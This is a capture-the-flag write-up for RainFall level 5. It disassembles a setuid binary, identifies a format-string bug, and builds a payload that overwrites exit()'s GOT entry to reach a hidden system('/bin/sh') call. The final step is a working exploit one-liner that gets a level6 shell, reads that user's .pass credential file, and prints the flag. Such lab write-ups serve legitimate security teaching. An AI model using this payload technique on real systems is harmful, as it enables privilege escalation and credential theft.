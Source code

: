 # Level 5

- We login as user level5:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level5/level5
```

```
level5@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level6 users 5385 Mar  6  2016 level5
level5@RainFall:~$ gdb level5
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:     push   %ebp
   0x08048505 <+1>:     mov    %esp,%ebp
   0x08048507 <+3>:     and    $0xfffffff0,%esp
   0x0804850a <+6>:     call   0x80484c2 <n>
   0x0804850f <+11>:    leave
   0x08048510 <+12>:    ret
End of assembler dump.
```

```
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   %ebp
   0x080484c3 <+1>:     mov    %esp,%ebp
   0x080484c5 <+3>:     sub    $0x218,%esp
   0x080484cb <+9>:     mov    0x8049848,%eax
   0x080484d0 <+14>:    mov    %eax,0x8(%esp)
   0x080484d4 <+18>:    movl   $0x200,0x4(%esp)
   0x080484dc <+26>:    lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:    mov    %eax,(%esp)
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:    mov    %eax,(%esp)
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
```


- Let's identify the calls and jump by execution order:
```
   0x080484d0 <+14>:    mov    %eax,0x8(%esp)
   0x080484d4 <+18>:    movl   $0x200,0x4(%esp)
   0x080484dc <+26>:    lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:    mov    %eax,(%esp)
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
```
>`0x8049848 <stdin@@GLIBC_2.0>: 0xb7fd1ac0`

>buffer size is 0x200 bytes

>buffer starts at `-0x208(%ebp)`

>Prompt the user for up to 512 bytes.

```
   0x080484ea <+40>:    lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:    mov    %eax,(%esp)
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
```
>Call `<printf@plt>` with our buffer.


```
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
```
> Call `exit()`


- Thanks to `<printf@plt>`, we can redirect the program's execution flow by modifying the behavior of `call 0x80483d0 <exit@plt>`.
```
(gdb) x 0x80483d0
   0x80483d0 <exit@plt>:        jmp    *0x8049838
(gdb) x/x 0x8049838
0x8049838 <exit@got.plt>:       0x080483d6
(gdb) x/2i 0x080483d6
   0x80483d6 <exit@plt+6>:      push   $0x28
   0x80483db <exit@plt+11>:     jmp    0x8048370
```


- When the program executes `call 0x80483d0 <exit@plt>`, it actually `jmp` to the instruction located at the address contained in `0x8049838`, which is at `0x80483d6`, where it will execute `push $0x28`.
By changing the value stored at address `0x8049838`, you can redirect the program's execution flow. You could, therefore, make it execute shellcode instead, but if you `(gdb) info functions`:
```
All defined functions:

Non-debugging symbols:
...
0x080484a4  o
0x080484c2  n
0x08048504  main
...
```

```
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x18,%esp
   0x080484aa <+6>:     movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>
   0x080484b6 <+18>:    movl   $0x1,(%esp)
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>
End of assembler dump.
```
>`0x80485f0:       "/bin/sh"`


- Look! A function that is not called anywhere but calls `system("/bin/sh")`! By putting the value `0804 84a4` into `0x8049838`, the program's execution should be redirected to this function.
>Low order bytes = 84a4 (33 956 in decimal)

>High order bytes = 0804 (2052 in decimal)

>`\x40\x98\04\x08\x38\x98\x04\x08 %VALUE1x %4$hn %VALUE2x %5$hn`

>`VALUE1 (0x8049840)` ==> 2052 - 8 bytes for the addresses - 2 bytes for the spaces = 2042

>`VALUE2 (0x8049838)` ==> 33 956 - 2052 - 2 bytes for the spaces = 31 902

- So:
```
level5@RainFall:~$ (echo -ne '\x40\x98\04\x08\x38\x98\x04\x08 %2042x %4$hn %31902x %5$hn'; cat) | ./level5
...
whoami
level6

cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
